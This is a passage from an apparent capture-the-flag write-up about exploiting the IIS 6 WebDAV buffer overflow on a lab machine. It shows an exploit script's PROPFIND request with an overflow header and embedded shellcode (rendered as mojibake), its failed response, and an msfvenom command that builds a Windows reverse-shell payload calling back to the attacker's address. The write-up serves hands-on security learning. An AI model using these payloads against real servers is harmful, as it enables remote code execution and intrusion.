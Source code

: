 
Now I can add that into the script. I’ll also change the target IP from
127.0.0.1 to 10.10.10.14.

This failed me:

    
    
    root@kali# python iis6-webdav-exploit.py
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 0
    If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ
    ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ
    ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ
    ￢ﾧﾧ￦ﾠﾁ`1dP0R
    8u};}$uXX$fￓﾋI:I41|,
    KXￓﾋ￐ﾉD$$[[aYZQ__Z]h32hws2_ThLw&ￕﾸ)TPh)kPPPP@P@Phￕﾗjh
    /hjVWhtaￕﾅt
              uhVhcmdWWW1jYVfD$<D$DTPVVVFVNVVSVhy?ￕﾉNVF0`ￕﾻVh<|
    uGrojS>
    
    
    HTTP/1.1 400 Bad Request
    Content-Type: text/html
    Date: Wed, 27 May 2020 20:19:05 GMT
    Connection: close
    Content-Length: 20
    
    <h1>Bad Request</h1>  
    

In doing some reading, it seems that this exploit requires some specifics
things about the shellcode, which led me to the next attempt.

### ExplodingCan - Kinda Fail

The nicest script I found is [this
one](https://github.com/danigargu/explodingcan), which runs with a target url
and a shellscript file. I created shellcode the same way as in the example:

    
    
    root@kali# msfvenom -p windows/shell_reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.47 LPORT=443 > shellcode_rev_10.10.14.47_443
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/alpha_mixed
    x86/alpha_mixed succeeded with size 710 (iteration=0)
    x86/alpha_mixed chosen with final size 710
    Payload size: 710 bytes
    